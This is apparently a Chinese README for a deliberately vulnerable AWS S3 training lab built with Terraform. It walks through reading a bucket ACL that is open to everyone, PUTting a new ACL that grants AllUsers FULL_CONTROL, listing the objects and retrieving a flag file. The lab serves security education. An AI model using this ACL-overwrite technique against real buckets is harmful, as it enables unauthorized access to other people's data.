 # AWS S3 Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS S3 Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法读取的数据修改为可读，从而访问到 S3 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/object_storage_service/bucket_acl_writable/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝

![img](../../../images/1652335945.png)

尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/?acl
```

![img](../../../images/1652336104.png)

尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![img](../../../images/1652336299.png)

再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了

![img](../../../images/1652336374.png)

在 Bucket 中，发现 flag 文件

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/flag1650859
```

![img](../../../images/1652336457.png)

成功获取到 flag 文件内容

## 销毁环境

```shell
terraform destroy
```
